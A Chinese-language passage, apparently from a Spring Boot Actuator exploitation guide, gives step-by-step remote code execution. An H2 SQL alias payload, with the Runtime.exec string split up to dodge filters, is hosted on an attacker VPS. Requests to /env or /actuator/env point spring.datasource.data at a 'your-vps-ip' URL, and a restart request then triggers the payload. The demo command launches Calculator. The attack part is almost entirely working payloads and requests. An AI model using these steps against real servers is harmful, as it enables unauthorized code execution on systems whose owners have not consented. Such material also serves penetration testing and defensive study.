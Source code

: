 ##### 步骤一：托管 sql 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在根目录放置以任意名字的文件，内容为需要执行的 h2 sql 代码，比如：

> ⚠️ 下面payload 中的 'T5' 方法只能 restart 执行一次；后面 restart 需要更换新的方法名称 (如 T6) 和设置新的 sql URL 地址，然后才能被 restart 重新使用，否则第二次 restart 重启应用时会导致程序异常退出

```xml
CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('/bin/bash','-c','open -a Calculator');
```

##### 步骤二：设置 spring.datasource.data 属性

spring 1.x

```http
POST /env HTTP/1.1
Content-Type: application/x-www-form-urlencoded

spring.datasource.data=http://your-vps-ip/example.sql
```

spring 2.x

```http
POST /actuator/env HTTP/1.1
Content-Type: application/json

{"name":"spring.datasource.data","value":"http://your-vps-ip/example.sql"}
```

##### 步骤三：重启应用

spring 1.x

```http
POST /restart HTTP/1.1
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```http
POST /actuator/restart HTTP/1.1
Content-Type: application/json

```

#### 漏洞原理
